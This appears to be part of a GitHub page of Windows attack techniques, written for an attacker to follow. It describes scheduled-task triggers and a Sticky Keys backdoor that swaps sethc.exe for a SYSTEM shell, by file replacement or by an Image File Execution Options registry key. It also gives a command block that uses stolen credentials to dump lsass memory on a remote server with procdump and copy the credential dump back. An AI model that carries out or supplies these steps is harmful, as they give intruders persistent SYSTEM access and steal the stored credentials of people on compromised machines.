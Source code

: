 * ONIDLE -> Run a command once the system enters an idle state
* ONLOGON -> Run a command when a user logs into the system
* ONSTART -> Run a command when the system starts up
 
If you would like more information on the various command line options for this tool, Microsoft describes them in great
detail at: [https://technet.microsoft.com/en-us/library/cc725744.aspx#BKMK_create](https://technet.microsoft.com/en-us/library/cc725744.aspx#BKMK_create)



### Sticky Keys (Requires reboot)

Sticky keys on Windows systems are activated when the user presses the SHIFT key 5 times. Here, according to the [posted slides](http://www.slideshare.net/mubix/windows-attacks-at-is-the-new-black-26665607), you replace the sethc.exe binary with your own binary (cmd.exe maybe?) and, when SHIFT is pressed 5 times, your binary is executed. Your binary will execute as SYSTEM and needs to replace the `%WINDIR%\System32\sethc.exe`.



Some caveats:

* If NLA (Network Layer Authentication) is enabled, this won't work

* If RDP (Remote Desktop Protocol) is disabled, this won't work





### Sticky Keys (No reboot)

This technique uses registry entries to switch the binary that the sticky keys executes. Its real advantage is that it does not require a reboot for the switch to take place.

* In the `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options` make a key called `sethc.exe`

* Make a REG_SZ value called "Debugger" (Ensure it is capitalized)

* For the "Debugger" REG_SZ, make it have a value of your binary

* Press SHIFT 5 times and your binary should be executed

### Process Dumping For Passwords
If you have access to a server and one of the user's usernames and passwords and can create shares on that computer,
you may be able to create a scheduled task which runs procdump.exe to dump all of the memory of the lsass process,
thus gaining access to all of the stored credentials on the targeted computer:

```
net use \\target server /user:DOM\username password
copy procdump.exe \\targetserver\c$
copy procdump.bat \\targetserver\c$
procdump.exe -ma lsass creds.dump
at \\targetserver 13:37 C:\procdump.bat
copy \\targetserver\c$\targetserver.dmp .
```
